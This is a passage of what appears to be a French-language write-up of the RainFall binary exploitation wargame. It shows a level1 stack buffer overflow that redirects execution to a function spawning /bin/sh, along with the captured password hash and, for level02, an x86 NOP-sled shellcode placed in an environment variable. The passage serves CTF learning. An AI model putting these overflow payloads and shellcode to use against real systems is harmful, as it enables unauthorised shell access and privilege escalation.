 ``` bash
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
(gdb) q
```

Ghidra :

```c
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

```bash
level1@RainFall:~$ python -c 'print "a"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat ) | ./level1
Good... Wait what?
whoami
level2
ls
ls: cannot open directory .: Permission denied
pwd
/home/user/level1
cd ..
cd /home/user/level2
ls -a
.  ..  .bash_logout  .bashrc  level2  .pass  .profile
cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
level1@RainFall:~$ su level2
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```
On rajoute le cat pour maintenir le fd

## level 02
```bash

export SHELLCODE=$(python -c 'print "\x90"*1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"')

(gdb) x/s *((char**)environ)
```